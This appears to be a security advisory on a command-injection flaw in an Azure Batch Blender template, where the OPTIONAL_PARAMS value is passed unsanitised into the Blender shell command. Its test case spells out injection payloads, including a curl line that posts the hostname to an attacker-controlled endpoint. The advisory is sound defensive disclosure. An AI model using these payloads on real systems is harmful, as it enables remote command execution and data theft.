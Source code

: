 - Vulnerability name: Command Injection in Blender Template via Optional Parameters
- Description: An attacker can inject arbitrary commands into the Blender command line by manipulating the `OPTIONAL_PARAMS` parameter in the job template. This is possible because the `OPTIONAL_PARAMS` environment variable, derived from the template, is directly incorporated into the command string executed by the `blender_command` function in `python-frame-splitter.py` without any sanitization. By crafting a malicious `job.template.json` or `job.parameters.json`, an attacker can control the `OPTIONAL_PARAMS` value and insert shell commands that will be executed on the Azure Batch compute node when the job is run.
- Impact:
    - Remote Command Execution: Successful exploitation allows the attacker to execute arbitrary commands on the Azure Batch compute nodes.
    - Data Exfiltration: Attackers could potentially access and exfiltrate sensitive data stored on or accessible from the compute nodes, including data from mounted storage accounts or secrets within the Batch environment.
    - System Compromise: Full compromise of the Azure Batch compute node is possible, potentially allowing for further malicious activities like lateral movement within the Azure environment or using the compute resources for cryptomining or other illicit purposes.
- Vulnerability rank: Critical
- Currently implemented mitigations: None. There is no input sanitization or validation implemented in the code to prevent command injection via `OPTIONAL_PARAMS`.
- Missing mitigations:
    - Input Sanitization: Implement robust input sanitization and validation for the `OPTIONAL_PARAMS` parameter. This should include escaping special characters that could be interpreted by the shell and potentially using a safer method to pass parameters to Blender that avoids shell interpretation altogether. Ideally, parameters should be passed as separate arguments rather than as part of a single string that is then interpreted by the shell.
    - Principle of Least Privilege: Configure Azure Batch tasks to run with the minimum necessary privileges. This would limit the scope of damage an attacker can inflict even if command injection is successful.
    - Sandboxing/Isolation: Consider sandboxing or containerizing the Batch tasks to further isolate them from the underlying compute node and limit the impact of any malicious command execution. While Azure Batch provides some level of isolation, additional layers could be beneficial.
- Preconditions:
    - The attacker must be able to supply or modify a `job.template.json` or `job.parameters.json` file that is used to create an Azure Batch job. This could occur if the attacker has control over the template repository, Batch Explorer gallery, or if a user is tricked into using a malicious template.
    - The Blender template must be used, and the attacker must be able to influence the `OPTIONAL_PARAMS` parameter.
- Source code analysis:
    - File: `/code/templates/blender/scripts/python-frame-splitter.py`
    - Function: `blender_command(blend_file, optionalParams)`
    - The `blender_command` function constructs the command line for executing Blender tasks.
    - In both Linux and Windows versions of the command construction:
      ```python
      command = "blender -b \"{}/{}\" -P \"{}/scripts/python-task-manager.py\" -y -t 0 {}" # Linux
      command = "\"%BLENDER_2018_EXEC%\" -b \"{}\\{}\" -P \"{}\\scripts\\python-task-manager.py\" -y -t 0 {}" # Windows
      ```
    - The `{}` placeholder at the end of the command string is filled with the `optionalParams` variable.
    - The `optionalParams` variable directly corresponds to the `OPTIONAL_PARAMS` environment variable, which is derived from user-controllable template parameters.
    - There is no input validation or sanitization of `optionalParams` before it is incorporated into the command, making it vulnerable to command injection.
- Security test case:
    1. **Prepare a Malicious Template:** Modify the `templates/blender/render-default-linux/job.template.json` file (or the Windows version if testing on Windows). Locate the "optionalParameters" parameter definition and change its `defaultValue` to include a command injection payload. For example, use `; touch /tmp/pwned` for Linux or `& echo pwned > C:\pwned.txt` for Windows.
        ```json
        {
           "name": "optionalParameters",
           "type": "string",
           "defaultValue": "; touch /tmp/pwned",
           "metadata": {
             "description": "Optional parameters"
           }
         }
        ```
    2. **Submit a Job:** Use Azure Batch CLI, Batch Explorer, or any tool that utilizes these templates to submit a job based on the modified Blender template. When submitting the job, select the "Render movie on Linux Server" (or Windows equivalent) action for Blender. You can use an existing pool or create a new one for testing. Ensure the job is submitted and tasks are scheduled to run.
    3. **Access a Compute Node (Optional but Recommended for Verification):** To directly verify command execution, you can connect to a compute node in the pool. This may require enabling Batch node agent and SSH/RDP access to the pool nodes.
    4. **Check for Payload Execution:**
        - **Linux:** On the compute node, use SSH to connect and execute the command `ls /tmp/pwned`. If the file `/tmp/pwned` exists, the command injection was successful.
        - **Windows:** On the compute node, use RDP to connect and check if the file `C:\pwned.txt` exists and contains the text "pwned". If it does, the command injection was successful.
    5. **Alternative Verification (Without Node Access):** If direct node access is not feasible, you can modify the payload to perform an observable action, such as:
        - **Exfiltrate Data (Example - Linux):**  `; curl -X POST -d "$(hostname)" <attacker_controlled_endpoint>`. Replace `<attacker_controlled_endpoint>` with a URL where you can receive HTTP POST requests. Check your endpoint for incoming requests from the Batch compute node's hostname.
        - **Cause a Time Delay (Example - Linux):** `; sleep 30`. Monitor the task execution time. If the task takes significantly longer than expected, it might indicate the `sleep` command was executed. Check task logs for any unusual delays or errors.

By successfully executing these steps and observing the expected outcome (file creation, data exfiltration, or time delay), you can confirm the command injection vulnerability within the Blender template due to the insecure handling of `OPTIONAL_PARAMS`.
